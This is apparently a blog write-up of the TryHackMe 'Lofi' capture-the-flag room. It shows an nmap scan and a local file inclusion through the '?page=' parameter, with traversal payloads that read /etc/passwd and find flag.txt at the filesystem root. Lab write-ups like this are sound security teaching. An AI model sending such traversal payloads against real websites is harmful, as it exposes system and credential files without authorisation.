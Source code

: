 ```yaml
---
title: Lofi
date: 2025-02-12
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, lfi, path_traversal, web]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/lofi/banner.png
---
```


> Want to hear some lo-fi beats, to relax or study to? We've got you [covered](https://tryhackme.com/room/lofi)! 

Even if the instructions tell us to connect to `http://target-IP` on our navigator, we can confirm the open ports using a fast nmap scan :

```shell
$ nmap -p- -T4 target
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-11 19:59 CET
Nmap scan report for target (10.10.106.154)
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 22.63 seconds
```

Now that we've confirmed it, we can navigate to the web page on port `80` :

![1](/assets/img/tryhackme/ctf/lofi/1.png)

The first page doesn't seem very special but if we click on one of the options under the *Discography* section, and when we look at the URL, there is a `?page=` parameter that is equal to `relax.php`.

![2](/assets/img/tryhackme/ctf/lofi/2.png)

It very much looks like a path traversal vulnerability that we can use to our advantage.

Let’s try a simple payload to check if this works :

```console
http://target/?page=../../../../../../../../../../etc/passwd
```

![3](/assets/img/tryhackme/ctf/lofi/3.png)

Indeed, it displays `/etc/passwd`.

Now that we know it actually works, we can check for different payloads with the `flag.txt` file name :

```console
# Among famous directories we could try
../../../../../../../../../../flag.txt
../../../../../../../../../../var/www/html/flag.txt
../../../../../../../../../../tmp/flag.txt
```

So we try them one by one and indeed, as the instructions said, we can find the flag in the *root of the filesystem*.

![4](/assets/img/tryhackme/ctf/lofi/4.png)